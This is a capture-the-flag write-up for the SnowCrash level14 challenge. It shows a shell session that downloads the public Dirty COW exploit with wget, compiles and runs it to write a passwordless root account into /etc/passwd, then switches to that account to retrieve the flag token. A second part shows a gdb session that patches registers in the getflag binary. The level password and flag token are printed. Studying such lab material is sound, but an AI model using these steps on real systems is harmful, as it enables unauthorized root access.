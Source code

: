 Login as `level14`.
```shell
┌──$ [~/42/2021/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level14
level14@192.168.1.64's password: 2A31L79asukciNyi8uppkEuSx
```
There is no file or binary to exploit in home directory. Search for what can be exploit.
```shell
level14@SnowCrash:~$ uname -a
Linux SnowCrash 3.2.0-89-generic-pae #127-Ubuntu SMP Tue Jul 28 09:52:21 UTC 2015 i686 i686 i386 GNU/Linux
```
Linux kernel `< 4.8.3` (created before 2018) are vulnerable to **Dirty COW**[¹](https://dirtycow.ninja/).

Dirty COW allows privilege escalation by exploiting race condition on the copy-on-write mechanism.
```shell
level14@SnowCrash:~$ cd /tmp/
level14@SnowCrash:/tmp$ wget https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
level14@SnowCrash:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
level14@SnowCrash:/tmp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: <Enter>
Complete line:
firefart:figsoZwws4Zu6:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password ''.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password ''.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```
Login as `root`.
```shell
level14@SnowCrash:/tmp$ su firefart
Password: <Enter>
```
Login as `flag14` and get the flag.
```shell
firefart@SnowCrash:/tmp# su flag14
Congratulation. Type getflag to get the key and send it to me the owner of this livecd :)
flag14@SnowCrash:~$ getflag
Check flag.Here is your token : 7QiHafiNa3HVozsaXkawuYrTstxbpABHD8CPnHJ
```





level14@SnowCrash:~$ gdb /bin/getflag
(gdb) break main
Breakpoint 1 at 0x804894a
(gdb) run
Starting program: /bin/getflag

Breakpoint 1, 0x0804894a in main ()
(gdb) target record
(gdb) b *0x0804898e
Breakpoint 2 at 0x804898e
(gdb) continue
Continuing.

Breakpoint 2, 0x0804898e in main ()
(gdb) set $eax=42
(gdb) until
0x080489a8 in main () # Jumped on line
(gdb) until
0x080489a8 in main ()
(gdb) b *0x080489b4
Breakpoint 5 at 0x80489b4
(gdb) continue
Continuing.

Breakpoint 5, 0x080489b4 in main ()
(gdb) until
0x080489b6 in main ()
(gdb) until
0x080489ea in main () # Jumped on line
(gdb) b *0x080489fe
Note: breakpoints 6 and 7 also set at pc 0x80489fe.
Breakpoint 8 at 0x80489fe
(gdb) continue
Continuing.

Breakpoint 6, 0x080489fe in main ()
(gdb) until
0x08048a00 in main ()
(gdb) until
0x08048a34 in main () # Jumped on line
(gdb) b *0x08048a4c
Breakpoint 9 at 0x8048a4c
(gdb) continue
Continuing.

Breakpoint 9, 0x08048a4c in main ()
......

(gdb) b *0x08048ea5
Breakpoint 10 at 0x8048ea5
(gdb) continue
Continuing.

Breakpoint 10, 0x08048ea5 in main ()

